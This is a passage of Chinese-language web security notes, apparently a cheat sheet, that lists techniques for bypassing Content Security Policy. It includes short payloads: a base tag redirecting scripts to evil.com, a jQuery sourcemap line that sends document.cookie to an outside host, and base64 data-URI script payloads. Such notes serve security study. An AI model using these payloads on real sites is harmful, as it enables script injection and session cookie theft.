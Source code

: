 - URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具

##### 2. MIME Sniff
举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再`<script href='http://xxx.com/xx.jpg'>`，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本

##### 3. 302跳转
对于302跳转绕过CSP而言, 实际上有以下几点限制:
- 跳板必须在允许的域内
- 要加载的文件的host部分必须跟允许的域的host部分一致

##### 4. iframe
当可以执行代码时, 可以创建一个源为`css` `js`等静态文件的frame, 在配置不当时, 该frame并不存在csp, 则在该frame下再次创建frame，达到bypass的目的。同理，使用 `../../../ /%2e%2e%2f` 等可能触发服务器报错的链接也可以到达相应的目的。

##### 5. base-uri
当script-src为nonce或无限制，且base-uri无限制时，可通过 `base` 标签修改根URL来bypass，如下加载了`http://evil.com/main.js`

```html
<base href="http://evil.com/">
<script nonce="correct value" src="/main.js"></script>
```
##### 6. 其他
- location 绕过
- 可上传SVG时, 通过恶意SVG绕过同源站点
- 存在CRLF漏洞且可控点在CSP上方时，可以注入HTTP响应中影响CSP解析
- CND Bypass，如果网站信任了某个CDN, 那么可利用相应CDN的静态资源bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 [Git Pull Request](https://github.com/angular/angular.js/pull/15346)
- jQuery sourcemap

    ```js
    document.write(`<script>
    //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
    ```
- a标签的ping属性
- For FireFox
  
    ```html
    <META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">
    ```
  - `<link rel='import'>`
  - `<meta http-equiv='refresh'>`
- 仅限制`script-src`时:
  - `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>`
